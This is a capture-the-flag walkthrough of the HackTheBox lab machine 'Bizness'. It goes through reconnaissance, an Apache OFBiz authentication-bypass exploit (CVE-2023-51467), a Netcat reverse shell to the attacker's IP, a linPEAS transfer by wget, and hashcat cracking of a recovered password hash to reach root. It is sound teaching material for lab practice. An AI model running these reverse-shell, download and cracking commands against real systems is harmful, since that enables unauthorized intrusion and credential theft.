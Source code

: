 ```yaml
---
description: Walkthrough of the HTB machine "Bizness"
cover: >-
  https://images.unsplash.com/photo-1496442226666-8d4d0e62e6e9?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxuZXclMjB5b3JrfGVufDB8fHx8MTcwOTM4NzQzOXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 👩‍💼 Bizness

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.11.252    

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 10:59 -03
Nmap scan report for 10.10.11.252
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.59 seconds

```

As we can see, HTTP and HTTPS are opened on the target. However, when we try to access it via a web browser, we're redirected to the domain "_bizness.htb_".

So, we need to put this domain into our /etc/hosts file:

```bash
echo '10.10.11.152 bizness.htb' | sudo tee -a /etc/hosts
```



## Enumeration

As we navigate through the website, we can start up a Directory Busting tool as well as a Subdomain Finder while we analyze the application.

There is a variety of tools we can use for Directory Busting, being: _gobuster, dirbuster, feroxbuster, FFUF_, etc.

In this case, we're going to Directory Bust using _Dirbuster_:

```bash
dirbuster -u https://bizness.htb/ -l /usr/share/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt 

# -u = url
# -l = wordlist
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption><p>Dirbuster found a login page</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Login page</p></figcaption></figure>



## Exploitation

Once we found a login page, we can try default credentials or brute-forcing this if we're able. However, first, let's try searching for an exploit for this OFBiz Apache page.

After some research, I found that [CVE-2023-51467](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) relates to an Authentication Bypass Vulnerability in Apache OFBiz. This CVE exploits a Server-Side Request Forgery (SSRF) vulnerability on the web application. We can download the exploit file and run it on our target:

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>Exploit showing that target is vulnerable</p></figcaption></figure>

Now we can run commands on the target. So we can try to get a Reverse Shell using _Netcat_:

<pre class="language-bash"><code class="lang-bash"><strong>#First, we should open a port with Netcat
</strong><strong>
</strong><strong>rlwrap nc -nvlp 7777
</strong><strong>#rlwrap is used so we can have a better tty shell.
</strong><strong>
</strong><strong>#Next, we should execute the exploit to get the Reverse Shell
</strong><strong>python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.19 7777'
</strong></code></pre>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Exploit first try</p></figcaption></figure>

However, as we can see here, we aren't getting any responses from the server despite providing commands through Netcat.

We can fix this by adding a `-c bash` to the command:&#x20;

```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -c bash 10.10.14.19 7777'

# -c = specifies shell commands to execute after a connection. In this case, we're specifying we want to use bash
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Exploit Successful</p></figcaption></figure>



### User Flag

From there, we just need to grab the user flag in the "_ofbiz_" home directory:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

Now, before we do anything else, let's get a full TTY Shell. The best way to do this is using this Python script:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

However, I'm going to leave you [this link](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) so you can find other ways to get a Full TTY Shell.



## Post Exploitation / Privilege Escalation

We can start by doing some basic enumeration. After that, if we aren't able to find anything from the get-go, we can upload "_linPEAS_" to the target by using the following commands:

<pre class="language-bash"><code class="lang-bash"><strong># On the ATTACKER machine, go to the folder where you have linPEAS (if you're in Kali Linux version 2024.1, it should be in your /opt/linpeas folder:
</strong><strong>
</strong><strong>cd /opt/linpeas
</strong><strong>
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>
</strong><strong># On the TARGET machine, go to the "tmp" folder, where we usually have write access and download the "linpeas.sh" file using wget:
</strong><strong>
</strong><strong>cd /tmp
</strong><strong>
</strong><strong>wget http://&#x3C;attacker ip>/linpeas.sh
</strong><strong>
</strong><strong># Next, we give the script permission to execute:
</strong><strong>
</strong><strong>chmod +x linpeas.sh
</strong><strong>
</strong><strong># Then, we run the script:
</strong><strong>
</strong><strong>./linpeas.sh
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Transfering linPEAS to the target machine</p></figcaption></figure>

LinPEAS shows us that there's an executable our user has write access to:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>LinPEAS shows an executable file our low level user has write access to</p></figcaption></figure>

However, we can only abuse this to create a backdoor. [This link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services) should provide you with an explanation.

So we'll need to enumerate further.

If we continue our enumeration, we'll be able to find a password in the `c54d0.dat` file located in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>SALT part of the hash</p></figcaption></figure>

Now, before we crack this hash, [we'll need to decode the hash](https://www.linkedin.com/pulse/bizness-htb-walkthrough-laith-younes-laith-younes--jtqhe) using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find\_/\_Replace\(%7B'option':'Regex','string':'\_'%7D,'/',false,false,false,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false\)From\_Base64\('A-Za-z0-9%2B/%3D',false,false\)To\_Hex\('None',0\)\&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ):

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Decoded hash</p></figcaption></figure>

So we can use "_hashcat_" with the hash mode of 120 to crack it:

```bash
hashcat -m 120 '<hash>:d' /usr/share/wordlists/rockyou.txt

# -m = mode
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Here's our cracked password</p></figcaption></figure>

###

### Root Flag

Now we just need to switch the user to root and grab the root flag:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>Root's Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
